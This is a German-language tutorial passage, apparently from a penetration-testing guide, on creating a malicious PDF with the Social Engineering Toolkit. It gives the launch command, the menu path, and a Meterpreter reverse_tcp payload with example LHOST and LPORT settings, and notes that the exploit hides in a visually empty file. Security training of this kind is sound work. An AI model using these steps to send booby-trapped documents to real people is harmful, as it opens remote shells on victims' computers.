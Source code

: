 # 2.  PDF-basierte Exploits mit dem S.E.T. erstellen

### 2. PDF-basierte Exploits mit dem Social Engineering Toolkit (SET) erstellen

Das Social Engineering Toolkit bietet einen speziellen Menüpunkt zur Erstellung von schädlichen PDF-Dokumenten. Im Folgenden die Schritte:

#### 2.1 SET starten und den Attack Vector auswählen

1.  **SET starten:**\
    Öffne ein Terminal in Kali Linux und starte SET mit:

    ```bash
    sudo setoolkit
    ```
2. **Menüauswahl:**\
   Im Hauptmenü von SET wählst du:
   * **Social-Engineering Attacks**
   * Anschließend den Menüpunkt **"FileFormat Attacks"** (bei manchen Versionen auch als „PDF Attack Vectors“ bezeichnet).

#### 2.2 Payload-Konfiguration und PDF-Erstellung

1.  **Payload auswählen:**\
    Wähle den gewünschten Payload, z. B.:

    ```plaintext
    windows/meterpreter/reverse_tcp
    ```

    Gib dabei die Verbindungsparameter an:

    * **LHOST:** Deine IP-Adresse (z. B. `192.168.53.197`)
    * **LPORT:** Der gewünschte Port (z. B. `4444`)
2. **PDF-Payload generieren:**\
   SET erstellt nun eine PDF-Datei, die den Payload enthält. Diese Datei (häufig als _payload.pdf_ bezeichnet) ist oft visuell leer oder enthält minimale Inhalte – der Exploit ist im Hintergrund eingebettet.
3. **Ergebnis prüfen:**\
   Überprüfe, ob die PDF-Datei korrekt generiert wurde und sich in dem angegebenen Verzeichnis befindet (z. B. `/root/.set/` oder ein benutzerdefinierter Ordner).
